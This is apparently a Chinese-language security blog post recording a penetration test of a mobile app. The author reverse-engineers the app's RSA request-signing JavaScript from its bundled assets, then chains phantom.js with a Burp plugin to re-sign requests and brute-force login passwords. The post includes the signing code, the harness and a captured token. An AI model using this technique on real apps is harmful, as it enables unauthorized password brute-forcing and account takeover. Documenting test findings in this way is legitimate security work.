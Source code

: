 ```yaml
---
layout: post
title: app渗透测试记录
date: 2020-09-28
category: webmember
---
```


# 主要记录某个app的一次爆破记录

* 拿到app 对登录进行抓包发现请求体里面有个sign参数，那么对于无法修改参数 只能对参数进行sign 再替换掉
```
access_token=cd294d2533b4d01c1644216b485d424c&sign=4feb9cfdd19756b4a258d23eade3152849cf7baefad5c1fab44c99ccc7fa9f2ae12732b07ffe038103670c39d8ac75d639e0536100b128b12bc32b229ddb3132&sign_salt=16012835903941
```
* 由于APP未加固 由于是app想通过逆向获取到sign的计算方法，通过jadxapp反编译app，全局搜索sign未发现关键字
在asserts资源里面发现存在www目录 通过本地搭建app 然后访问阅读源码发现了参数sign
* 主要代码如下  
```
function getParamterSort(){
		   var dt=new Date(); 
	       var mtime=dt.getTime();
	       var time=mtime;  //获取时间字符串
	       var query = location.search.substr(1)
			    query = query.split('&')
			    var params = []
			    for (let i = 0; i < query.length; i++) {
			        let q = query[i].split('=')
			        if (q.length === 2) {
			            var sss =q[0]+decodeURI(q[1])
			            params.push(sss)
			        }
			    }
			 var dt=new Date(); 
			 var mtime=dt.getTime();
			 var str="sign_salt"+mtime;
			 params.push(str)
			 document.write("需要修改时间:"+"sign_salt="+mtime);
			 document.write("<br/>");
			 var ss=params.sort().join('');
			 return ss;
	}
	//整体字符串加密 通过html 参数传递

	function getSign1(str){
	var rsa = new RSAKey();
	rsa.readPrivateKeyFromPEMString(_privateKey);
	var signature = rsa.sign(str, 'sha256');
	document.write("加密之前的"+str);
	document.write("<br/>");
	document.write("当前加密之后的参数sign是:"+signature);
	document.write("<br/>");
}  
```  

![signhtml]({{ site.url }}/assert/image/signhtml.jpg)
可以直接计算sign的值，然后我有使用phantom.js结合burp jsencryter插件编写成功爆破出账户密码  

```
var wasSuccessful = phantom.injectJs('1.js');/*引入实现加密的js文件*/
var wasSuccessful1 = phantom.injectJs('rsa.js');

// 处理函数
function js_encrypt(payload){
	var newpayload = getSign(payload)
	return newpayload;
}
```
